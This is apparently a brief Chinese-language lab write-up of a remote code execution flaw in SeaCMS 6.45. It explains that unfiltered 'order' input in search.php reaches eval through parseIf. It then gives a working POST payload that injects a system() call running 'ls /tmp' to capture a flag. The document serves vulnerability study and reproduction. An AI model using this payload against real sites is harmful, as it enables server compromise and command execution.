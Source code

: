 # 海洋 cms V6.45版本代码执行 by [scholar](https://github.com/Frivolous-scholar) 

## 概述

该漏洞成因在于 search.php 没有对用户输入内容进行过滤，导致攻击者提交的 order 参数可进入 parseIf 函数中执行 eval。

## 复现

1、首先打开靶场。

![1](./1.png)

2、输入任意内容搜索并抓包。

![2](./2.png)

3、利用 POC 拿到 Flag

```
searchtype=5&order=}{end if}{if:1)$_POST[func]($_POST[cmd]);if(1}{end if}&func=system&cmd=ls /tmp
```

![3](./3.png)